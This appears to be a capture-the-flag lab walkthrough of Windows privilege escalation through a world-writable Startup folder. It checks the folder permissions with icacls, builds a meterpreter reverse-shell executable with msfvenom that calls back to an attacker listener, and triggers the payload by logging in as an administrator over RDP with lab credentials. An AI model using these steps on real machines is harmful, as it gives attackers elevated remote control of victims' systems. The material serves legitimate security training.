




# Startup Applications

We can run icacls.exe to check and see if our current user has write access to the "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" directory. If this privilege exists we can add a malicous executable that will give us an elevated shell once an user with administrator privileges logs on to the target machine.

## Step 1: Detection

We can use icacls.exe to examine the permissions of the Startup directory for programs.

Note: PowerUp.ps1 will not detect this vulnerability

```bash
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

We can see BUILTIN\Users have full control (F)



## Step 2: Exploitation

We are going to generate a payload using `msfvenom` that will allow us to exploit this vulnerability with a reverse shell.

Once an admin user logs onto the machine we will get a reverse shell with elevated privileges.

We will log-in as a a user with administrator privileges to simulate the exploit execution.

### Start Meterpreter Shell

```bash
┌──(vagrant㉿kali)-[~/Documents/THM]
└─$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.18.48.44
lhost => 10.18.48.44
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.18.48.44:4444
```

### Generate Reverse Shell Payload

```bash
┌──(vagrant㉿kali)-[~/Documents/THM]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.48.44 LPORT=4444 -f exe -o x.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: x.exe
```

### Upload the Payload and Execute

Save the x.exe payload to C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup





Log off as the `user` account and logon as the administrator user

```bash
┌──(vagrant㉿kali)-[~/Documents/THM]
└─$ xfreerdp /v:10.10.48.44 /u:TCM /p:Hacker123 +clipboard
```

This triggers the x.exe malicious payload in the Startup directory and results in a reverse shell on our Meterpreter listener with elevated privileges.


